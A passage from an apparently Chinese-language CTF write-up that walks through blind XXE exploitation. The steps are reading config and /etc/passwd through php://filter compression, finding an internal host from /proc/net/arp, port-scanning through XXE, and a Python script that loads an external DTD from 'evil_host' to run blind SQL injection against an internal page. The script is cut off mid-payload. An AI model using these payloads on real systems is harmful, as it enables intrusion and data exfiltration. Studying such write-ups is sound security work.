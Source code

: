 

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BC%BA%E7%BD%91%E6%9D%AFXXE2.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BC%BA%E7%BD%91%E6%9D%AFXXE2.png)

既然如此，那么我们是不是能读取该服务器上面的文件，我们先读配置文件(这个点是 Blind XXE ，必须使用参数实体，外部引用 DTD )

   ```
   /var/www/52dandan.cc/public_html/config.php
   ```

   拿到第一部分 flag

   ```
   <?php
   define(BASEDIR, "/var/www/52dandan.club/");
   define(FLAG_SIG, 1);
   define(SECRETFILE,'/var/www/52dandan.com/public_html/youwillneverknowthisfile_e2cd3614b63ccdcbfe7c8f07376fe431');
   ....
   ?>
   ```

   > **注意：**
   >
   > 这里有一个小技巧，当我们使用 libxml 读取文件内容的时候，文件不能过大，如果太大就会报错，于是我们就需要使用 php
   > 过滤器的一个压缩的方法
   >
   > ```
   > 压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
   > 解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");
   > ```

   然后我们考虑内网有没有东西，我们读取

   ```
   /proc/net/arp
   /etc/host
   ```

   找到内网的另一台服务器的 ip 地址 192.168.223.18

   拿到这个 ip 我们考虑就要使用 XXE 进行端口扫描了，然后我们发现开放了 80 端口，然后我们再进行目录扫描，找到一个 test.php ，根据提示，这个页面的 shop 参数存在一个注入,但是因为本身这个就是一个 Blind XXE ,我们的对服务器的请求都是在我们的远程 DTD 中包含的，现在我们需要改变我们的请求，那我们就要在每一次修改请求的时候修改我们远程服务器的 DTD 文件，于是我们的脚本就要挂在我们的 VPS 上，一边边修改 DTD 一边向存在 XXE 漏洞的主机发送请求，脚本就像下面这个样子

   **示例代码：**

   ```php
   import requests
   url = 'http://39.107.33.75:33899/common.php'
   s = requests.Session()
   result = ''
   data = {
           "name":"evil_man",
           "email":"testabcdefg@gmail.com",
           "comment":"""<?xml version="1.0" encoding="utf-8"?>
                   <!DOCTYPE root [
                   <!ENTITY % dtd SYSTEM "http://evil_host/evil.dtd">
                   %dtd;]>
                   """
   }
   
   for i in range(0,28):
           for j in range(48,123):
                   f = open('./evil.dtd','w')
               payload2 = """<!ENTITY % file SYSTEM "php://filter/read=zlib.deflate/convert.base64-encode/resource=http://192.168.223.18/test.php?shop=3'-(case%a0when((select%a0group_concat(total)%a0from%a0albert_shop)like%a0binary('{}'))then(0)else(1)end)-'1">
   ```